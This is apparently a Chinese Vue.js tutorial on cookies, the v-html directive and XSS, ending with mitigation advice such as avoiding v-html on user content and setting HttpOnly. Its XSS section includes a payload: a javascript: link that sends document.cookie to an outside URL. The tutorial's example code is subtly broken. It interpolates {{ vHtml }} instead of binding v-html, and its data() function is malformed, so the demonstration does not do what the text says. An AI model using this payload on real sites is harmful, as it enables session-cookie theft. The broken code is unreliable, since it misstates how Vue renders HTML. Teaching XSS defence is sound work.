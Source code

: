 #### v-html 与 XSS攻击

### cookie简介

cookie是浏览器与服务器为多个通信所产生的一系列可信消息，结构为字符串，内容格式为key-value形式

1. 当首次访问浏览器某系统时，通常需要登录，此时，登录完成请求带着用户信息给服务器，服务器检查登录信息，校验通过，返回数据。
2. 服务器返回数据时，不仅带着浏览器要用的信息，还携带了部分作为下次访问时需要的验证信息，即cookie
3. 当浏览器下一次访问服务器时，请求带着上次的cookie，服务器检查cookie，通过，返回数据。
4. 不同的浏览器之间的cookie是不共享的，相同的浏览器会对不同域名下的cookie归类存储

<div><img style="height: 300px;" alt="cookie流向过程" src="../static/image/cookies.jpeg" /></div>

### cookie的安全性问题
当用户窃取了cookie信息，则可以模拟或者假冒当前用户进行操作


### 获取cookie办法
原生就有获取cookie的策略：`document.cookie`，可以获取到所有不带有`httpOnly`的cookie信息


### v-html作用
v-html 与 v-text不同，v-text会把后面所有的内容当作纯文本进行渲染，它没有解析HTML结构的功能。而v-html则能解析HTML结构，只要传入的字符串带有HTML结构，就能渲染出带有结构的页面样式。

v-html的内容按普通 HTML 插入，不会作为 Vue 模板进行编译。

```js
// 一个基础的v-html用法
<div v-html="'<h1>Hello World</h1>'"></div>

```

### 什么是XSS
XSS，又称跨站脚本攻击，是一种在web应用中的计算机安全漏洞,它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。

XSS攻击的危害包括：
- 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 非法转账
- 强制发送电子邮件
- 网站挂马
- 控制受害者机器向其它网站发起攻击等


### v-html可能引发的XSS攻击
以下是一个带有xss攻击的v-html案例

```js
<template>
    <div>
        {{ vHtml }}
    </div>
</template>

new Vue({
    data() {
        vHtml = '<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>点我会泄露cookie信息</a>'
    }
})

```
vHtml这个变量的内容是一个不可信的HTML结构，当其被渲染到页面后，会出现一个按钮，用户如果点击了该按钮，则会跳转到对应的页面上，并把当前登录的所有可见的cookie信息都带给攻击者，此后，攻击者就可以拿着cookie假冒用户干坏事了


### 如何避免攻击
在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。
1. 只在可信内容上使用 v-html，永不用在用户提交的内容上。或者输入框中的内容渲染上，如评论区
2. 服务端提供cookie的时候，对所有敏感信息添加HttpOnly标识，只允许本域名对其进行读取，不允许客户端获取这些信息
